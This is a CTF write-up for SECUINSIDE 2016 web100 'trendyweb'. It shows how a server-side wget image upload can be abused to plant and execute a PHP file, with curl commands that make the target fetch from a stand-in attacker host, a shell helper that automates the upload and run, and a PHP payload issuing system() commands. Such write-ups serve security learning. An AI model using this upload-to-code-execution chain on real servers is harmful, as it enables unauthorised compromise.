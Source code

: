 ```yaml
---
layout: post
alias: "/blog/2016/07/10/secuinside-ctf-trendyweb/"
date: "2016-07-10T14:32:36+09:00"
tags: [ "ctf", "writeup", "web", "php" ]
"target_url": [ "https://ctftime.org/event/335" ]
---
```


# SECUINSIDE CTF Quals 2016 web100: trendyweb

This CTF was diffcult, and it seemed to be not well-prepared. I want to see the graph of the number of problems.

Our team could solve only this.
But, considering the solved numbers, we needed to solve also `CYKOR_0000*`s and `noted`.

## solution

Upload your `.php` as `avatar.png%3fhoge.php` into the `/data/$sessId/` directory and execute it on the server.


You can upload files via the `system('/usr/bin/wget '.escapeshellarg($origUrl));`.
Make `http://your-host.example.com/avatar.png?foo.php` returns something, and call:

``` sh
$ curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?foo'
```

This makes the file on `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo`.
So if you use `image='http://your-host.example.com/avatar.png?foo.php`, it becomes `http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3ffoo.php` and this is executed on the server when you request it.

This is enough to see the flag.
Define a utility function and explore it, you will found the executable which has the flag.

``` sh
execute_php() {
    cat > path/to/avatar.png
    key=$RANDOM
    curl 'http://chal.cykor.kr:8082' -D- -H 'Cookie: PHPSESSID=mde2hg0rm37k28vl8rvatkco31; path=/' -F image='http://your-host.example.com/avatar.png?'$key'.php'
    curl -D- 'http://chal.cykor.kr:8082/data/dd3e534e85eb4ca10180/avatar.png%3f'$key'.php'
}
```

``` php
<?php
system('id', $retval);
system('pwd', $retval);
system('ls -l /', $retval);
system('stat /flag_is_heeeeeeeereeeeeee', $retval);
system('/flag_is_heeeeeeeereeeeeee', $retval); // => flag
?>
```

